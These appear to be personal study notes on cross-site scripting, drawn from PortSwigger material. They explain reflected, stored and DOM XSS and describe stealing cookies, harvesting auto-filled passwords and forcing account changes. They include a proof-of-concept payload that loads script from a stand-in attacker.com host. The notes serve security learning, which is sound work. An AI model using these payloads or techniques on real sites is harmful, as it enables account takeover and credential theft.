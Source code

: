 Cross-site scripting

----

![](/static/img/Pasted_image_20230614133428.png)


### What is cross-site scripting (XSS)?

- Cross-site scripting (also known as XSS) is a web security vulnerability that **allows an attacker to compromise the interactions that users have with a vulnerable application**. It **allows an attacker to circumvent the same origin policy**, **which is designed to segregate different websites from each other**. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data

- ### How does XSS work?
	- Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users.
	- When the malicious code executes **inside a victim's browser**, the attacker can fully compromise their interaction with the application.

- ### XSS Prof of concept
	- `alert()` is not good enough to trigger the payload! because of chrome update at chrome 92 - https://chromestatus.com/feature/5148698084376576
	- Use `print()` or OOB payload like `<script src=http://attacker.com/1.js></script>`
- ### What are the types of XSS attacks?
	-  [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting), where the malicious script comes from the current HTTP request.
	-  [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting), where the malicious script comes from the website's database.
	-  [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting), where the vulnerability exists in client-side code rather than server-side code.

----
### [Reflected cross-site scripting]

- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
- Here is a simple example of a reflected XSS vulnerability:

	`https://insecure-website.com/status?message=All+is+well. <p>Status: All is well.</p>`

- The application doesn't perform any other processing of the data, so an attacker can easily construct an attack like this:

	`https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script> <p>Status: <script>/* Bad stuff here... */</script></p>`

- If the user visits the URL constructed by the attacker, then the attacker's script executes in the user's browser, in the context of that user's session with the application. At that point, the script can carry out any action, and retrieve any data, to which the user has access.

#### Impact of reflected XSS attacks

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

- Perform any action within the application that the user can perform.
- View any information that the user is able to view.
- Modify any information that the user is able to modify.
- Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

> There are various means by which an attacker **might induce a victim user to make a request that they control**, to deliver a reflected XSS attack. These include placing links on a website controlled by the attacker, or on another website that allows content to be generated, or by sending a link in an email, tweet or other message. The attack could be targeted directly against a known user, or could be an indiscriminate attack against any users of the application.

The need for an external delivery mechanism for the attack means that the impact of reflected XSS is generally less severe than [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored), where a self-contained attack can be delivered within the vulnerable application itself.

#### Exploiting cross-site scripting vulnerabilities

- The traditional way to prove that you've found a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) vulnerability is to create a popup using the `alert()` function. This isn't because [XSS](https://portswigger.net/web-security/cross-site-scripting) has anything to do with popups; it's simply a way to prove that you can execute arbitrary JavaScript on a given domain. You might notice some people using `alert(document.domain)`. This is a way of making it explicit which domain the JavaScript is executing on.

#### Exploiting cross-site scripting to steal cookies

Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

In practice, **this approach has some significant limitations**:

- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.

### Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by **creating a password input**, **reading out the auto-filled password**, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password. The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

### Exploiting cross-site scripting to perform [CSRF](https://portswigger.net/web-security/csrf)

**Anything a legitimate user can do on a web site, you can probably do too with XSS**. Depending on the site you're targeting, you might be able to make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin.

**Some websites allow logged-in users to change their email address without re-entering their password**. If you've found an XSS vulnerability, you can make it trigger this functionality to change the victim's email address to one that you control, and then trigger a password reset to gain access to the account.

This type of exploit is typically referred to as [cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF), which is slightly confusing because CSRF can also occur as a standalone vulnerability. When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.

#### Reflected XSS in different contexts

There are many different varieties of reflected cross-site scripting. The location of the reflected data within the application's response determines what type of payload is required to exploit it and might also affect the impact of the vulnerability.

In addition, if the application performs any validation or other processing on the submitted data before it is reflected, this will generally affect what kind of XSS payload is needed.

